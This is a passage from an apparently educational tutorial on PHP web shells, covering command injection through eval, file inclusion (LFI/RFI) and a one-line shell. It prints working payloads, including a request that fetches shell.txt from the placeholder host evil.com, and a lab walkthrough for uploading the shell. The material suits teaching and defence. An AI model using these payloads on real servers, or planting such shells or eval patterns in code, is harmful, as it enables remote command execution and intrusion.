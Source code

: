 If the web application has vulnerable code that allows executing unsanitized input, the attacker can directly run commands or drop a shell.

#### Example:

```php
<?php eval($_GET['code']); ?>
```

Call this page with:

```
http://victim.com/vuln.php?code=system('id');
```

The command `id` will be executed and the result shown in the browser.

---

### 3.  Local File Inclusion (LFI) / Remote File Inclusion (RFI)

These vulnerabilities allow an attacker to **include and execute remote or local files**.

#### Example:

```
http://victim.com/index.php?page=http://evil.com/shell.txt
```

If `allow_url_include` is enabled in PHP, it will fetch and execute the remote shell file.

---

## 🧪 PoC – Basic Web Shell Example

Here's a minimal PHP Web Shell (1-liner):

```php
<?php system($_GET['cmd']); ?>
```

### Steps to test (in lab environment):

1. Save it as `shell.php`.
2. Upload it to a vulnerable server.
3. Access it like this:

```
http://victim.com/uploads/shell.php?cmd=whoami
```

 You should see the current system user.

---

## ⚙️ Types of Web Shells
